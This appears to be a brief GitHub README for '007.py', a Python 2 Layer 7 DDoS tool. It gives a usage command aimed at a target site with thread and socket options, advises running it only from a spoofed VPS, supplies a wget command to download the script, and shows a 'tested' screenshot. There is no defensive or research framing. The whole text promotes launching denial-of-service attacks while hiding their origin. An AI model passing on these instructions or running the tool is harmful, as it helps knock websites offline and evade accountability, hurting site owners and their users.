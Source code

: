 # 007.PY (ONLY USE VPS - SPOOF) *****
Layer 7 USE: python2 007.py http://targetsite -w 69 -s 4165


----------------

# DOWNLOAD SCRİPT COMMAND:
wget https://raw.githubusercontent.com/B0RU70/007/master/007.py


# Tested Script:
![007 ddos,ddos,layer7](https://imgur.com/Pwwj9s6.png)


EDİTED BY Pavelo65
